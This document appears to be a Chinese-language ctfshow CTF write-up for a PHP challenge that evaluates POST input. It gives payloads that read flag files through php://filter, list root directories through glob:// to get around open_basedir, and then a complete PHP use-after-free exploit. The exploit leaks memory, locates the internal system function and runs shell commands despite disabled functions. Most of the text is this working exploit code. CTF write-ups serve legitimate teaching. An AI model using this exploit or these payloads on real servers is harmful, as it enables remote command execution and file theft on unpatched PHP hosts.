





```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}

?>

你要上天吗？
```

同上题


嵌套include并利用die()

```
c=include("php://filter/convert.base64-encode/resource=flag.php");die();
```






尝试扫描目录

```
c=var_export(scandir(getcwd()));die();
```



扫描当前目录可以

但是当我们扫描根目录时报错

```
c=var_export(scandir("/"));die();
```



猜测是开启了open_basedir。

open_basedir可将用户访问文件的活动范围限制在指定的区域，通常是其家目录的路径。

可以使用glob伪协议绕过

glob伪协议筛选目录不受open_basedir的制约。

利用glob读取根目录

```
c=?><?php $a=new DIrectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');}exit(0);?>
```




利用给出的poc读取flag0.txt

```
<?php
function ctfshow($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace();
            if(!isset($backtrace[1]['args'])) {
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= sprintf("%c",($ptr & 0xff));
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = sprintf("%c",($v & 0xff));
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { 

                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { 
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) {
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) {
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    function trigger_uaf($arg) {

        $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; 
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }


    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); 
    write($abc, 0xd0 + 0x68, $zif_system); 

    ($helper->b)($cmd);
    exit();
}

ctfshow("cat /flag0.txt");ob_end_flush();
?>
```

